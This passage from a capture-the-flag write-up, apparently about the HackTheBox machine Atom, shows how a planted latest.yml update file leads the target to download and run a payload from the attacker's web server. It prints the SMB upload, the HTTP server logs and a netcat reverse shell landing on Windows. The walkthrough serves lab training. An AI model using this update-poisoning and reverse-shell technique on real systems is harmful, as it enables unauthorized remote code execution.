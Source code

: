 The only thing I changed is the `url` is now pointing at my host. I’ll upload this to Atom:

```

smb: \client1\> put latest-remote.yml latest.yml
putting file latest-remote.yml as \client1\latest.yml (4.8 kb/s) (average 4.8 kb/s)

```

Each minute, there are two connections to my webserver:

```

oxdf@parrot$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.237 - - [10/Jul/2021 07:07:13] code 404, message File not found
10.10.10.237 - - [10/Jul/2021 07:07:13] "GET /r'ev.exe.blockmap HTTP/1.1" 404 -
10.10.10.237 - - [10/Jul/2021 07:07:13] code 404, message File not found
10.10.10.237 - - [10/Jul/2021 07:07:13] "GET /r%27ev.exe HTTP/1.1" 404 -

```

If I put the payload there:

```

oxdf@parrot$ cp rev.exe "r'ev.exe"

```

Then it still doesn’t find `r'ev.exe.blockmap`, but it does find `r'ev.exe` (see the 200 status code):

```
10.10.10.237 - - [10/Jul/2021 07:08:13] code 404, message File not found
10.10.10.237 - - [10/Jul/2021 07:08:13] "GET /r'ev.exe.blockmap HTTP/1.1" 404 -
10.10.10.237 - - [10/Jul/2021 07:08:13] "GET /r%27ev.exe HTTP/1.1" 200 -

```

And it runs, as a reverse shell connects back:

```

oxdf@parrot$ nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.237] 63974
Microsoft Windows [Version 10.0.19042.906]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>

```

Interestingly, when the request for the `.exe` file was 404, Atom would hit the web server every minute. It seems like perhaps that attempting to get a file but not finding it would break the process such that the cleanup on Atom didn’t continue. Once I put an executable there, everything was cleaned up.
